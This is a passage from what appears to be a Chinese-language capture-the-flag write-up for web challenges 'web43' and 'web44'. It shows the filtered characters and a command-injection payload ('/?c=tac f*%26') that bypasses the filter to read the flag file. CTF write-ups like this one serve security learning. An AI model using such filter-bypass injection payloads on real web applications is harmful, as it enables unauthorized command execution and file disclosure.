 得到flag

------

#### web43

分析

![image-20231216125642839](照片/image-20231216125642839.png)

过滤了

```
;|cat
```

构建命令

```
/?c=tac f*%26
```

![image-20231216125915146](照片/image-20231216125915146.png)

得到flag

------

#### web44

分析

![image-20240120124425656](照片/image-20240120124425656.png)